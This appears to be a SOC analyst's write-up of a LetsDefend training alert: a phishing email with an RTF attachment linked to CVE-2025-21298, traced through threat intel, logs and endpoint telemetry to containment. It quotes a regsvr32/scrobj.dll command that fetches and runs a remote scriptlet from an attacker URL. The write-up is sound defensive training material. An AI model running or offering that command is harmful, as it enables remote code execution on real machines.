# SOC336 - Windows OLE Zero-Click RCE Exploitation Detected (CVE-2025-21298)

## Overview

This investigation analyzes a **Windows OLE Zero-Click Remote Code Execution (RCE)** alert related to **CVE-2025-21298**. The alert was triggered after a phishing email containing a malicious **RTF attachment** was delivered to a user. The objective of the investigation was to determine whether the attachment initiated malicious activity and whether the endpoint was compromised.

---

## Information Gathering

| Field | Value |
|-------|-------|
| **Event Time** | Feb 04, 2025, 04:18 PM |
| **Rule** | SOC336 - Windows OLE Zero-Click RCE Exploitation Detected (CVE-2025-21298) |
| **SMTP Address** | 84.38.130.118 |
| **Sender Email** | projectmanagement@pm.me |
| **Recipient Email** | Austin@letsdefend.io |
| **Destination IP Address** | 172.16.17.137 |
| **Email Subject** | Important: Action Required for Upcoming Project Deadline |
| **Attachment** | `mail.rtf` |
| **Attachment SHA-256** | `df993d037cdb77a435d6993a37e7750dbbb16b2df64916499845b56aa9194184` |
| **Device Action** | Allowed |
| **Trigger Reason** | Malicious RTF attachment identified with known CVE-2025-21298 exploit pattern |



---

## Analysis

### 5W Analysis

**When:** Feb 04, 2025, 04:18 PM.

**Who:** Source email address **projectmanagement@pm.me** with SMTP address **84.38.130.118** targeting the user **Austin** on host **Austin** (`172.16.17.137`).

**What:** A suspected phishing email containing a malicious RTF attachment exploiting the **CVE-2025-21298** vulnerability pattern.

**Where:** The phishing email was delivered to **Austin@letsdefend.io** from the SMTP server **84.38.130.118**. The compromised endpoint was **Austin** (`172.16.17.137`).

**Why:** The attacker used a typical phishing technique based on urgency and project deadline pressure to convince the victim to open the malicious attachment, leading to potential remote code execution through the identified exploit pattern.

### Investigation

The investigation began by reviewing the phishing email details and identifying the indicators associated with the message.
The email showed typical social engineering characteristics, particularly the use of urgency and a project deadline scenario to pressure the recipient into opening the attached file. The attachment was identified as a malicious RTF document containing a known **CVE-2025-21298** exploit pattern.



The attachment hash and the sender SMTP address were then analyzed using the **Threat Intelligence** section available in the LetsDefend platform.
Both indicators were confirmed to have a malicious reputation, providing evidence that the attachment and the originating infrastructure were associated with malicious activity.




To further validate these findings, the identified Indicators of Compromise (IoCs) were analyzed using **VirusTotal**.
The analysis confirmed the malicious nature of both the attachment hash and the SMTP IP address, supporting the initial findings from the LetsDefend Threat Intelligence platform.




The investigation continued with an analysis of the network logs through the **Log Management** section of LetsDefend.
The logs revealed an HTTP GET request to: `http://84.38.130.118.com/shell.sct`
The request was allowed, as indicated by the **Device Action** field, and was initiated by the process **cmd.exe**, suggesting possible execution of malicious commands and communication with attacker-controlled infrastructure.



Following the network analysis, the victim endpoint was investigated through the **Endpoint Security** section.
The process activity revealed an abnormal process execution chain: `explorer.exe → OUTLOOK.EXE → cmd.exe → regsvr32.exe`
This process tree is highly suspicious because Microsoft Outlook launched a command shell, which subsequently executed **regsvr32.exe**, a legitimate Windows utility often abused by attackers for proxy execution.
The following command was identified: `regsvr32.exe /s /u /i:http://84.38.130.118.com/shell.sct scrobj.dll`
This command attempts to download and execute remote script content through **regsvr32.exe**, allowing remote code execution through the Script Component Object Model (`scrobj.dll`).




The suspicious domain observed during the process investigation, **84.38.130.118.com**, was then analyzed using **MXToolbox**.
The analysis showed that the domain did not have valid DNS records or DMARC records, further indicating that it was not a legitimate infrastructure component and could be associated with malicious activity.



Based on the collected evidence, multiple Indicators of Compromise were identified:

- Malicious phishing email containing an RTF attachment.
- Attachment associated with a known **CVE-2025-21298** exploit pattern.
- Malicious SMTP IP address (**84.38.130.118**).
- Suspicious HTTP request to attacker-controlled infrastructure.
- Abnormal process execution chain involving **OUTLOOK.EXE**, **cmd.exe**, and **regsvr32.exe**.
- Attempted remote code execution through `regsvr32.exe`.

The evidence confirms that the victim system was compromised.
The incident was classified as a **True Positive**, and the affected host was moved into **Containment**. An escalation is required for further incident response actions.

## Artifacts

### Source

- **Sender Email:** `projectmanagement@pm.me`
- **SMTP IP Address:** `84.38.130.118`

### Destination

- **Recipient Email:** `Austin@letsdefend.io`
- **Destination IP Address:** `172.16.17.137`

### Indicators of Compromise (IOCs)

- **RTF Attachment SHA-256:** `df993d037cdb77a435d6993a37e7750dbbb16b2df64916499845b56aa9194184`
- **RTF Attachment MD5:** `961027d29dda725b8117571a6a6ca1d5`
- **Malicious URL:** `http://84.38.130.118.com/shell.sct`

---

## Takeaways

- The alert was generated due to a malicious **RTF attachment** associated with **CVE-2025-21298**.
- The phishing email used urgency-based social engineering to increase the likelihood of user interaction with the malicious attachment.
- Threat Intelligence and VirusTotal confirmed the malicious nature of the attachment hash and SMTP IP address.
- Network logs identified an HTTP request attempting to retrieve the remote Scriptlet payload.
- Endpoint telemetry revealed the suspicious execution chain: `OUTLOOK.EXE → cmd.exe → regsvr32.exe`
- The attacker abused regsvr32.exe together with scrobj.dll to execute remote code through a trusted Windows component.
- The observed behavior matched a Living-off-the-Land (LotL) execution technique.
- The affected endpoint was placed in Containment and the incident was escalated for further investigation.

---

## Conclusion

The investigation confirmed that the alert was a **True Positive**.
Multiple sources of evidence, including email analysis, threat intelligence, network logs, and endpoint telemetry, confirmed a phishing campaign involving a malicious **RTF attachment** associated with **CVE-2025-21298**.
The attack resulted in the execution of `regsvr32.exe` to retrieve and execute a remote Scriptlet payload, demonstrating a successful attempt to compromise the affected endpoint.
The host was isolated, the incident was escalated, and further investigation was recommended to identify any additional malicious activity.

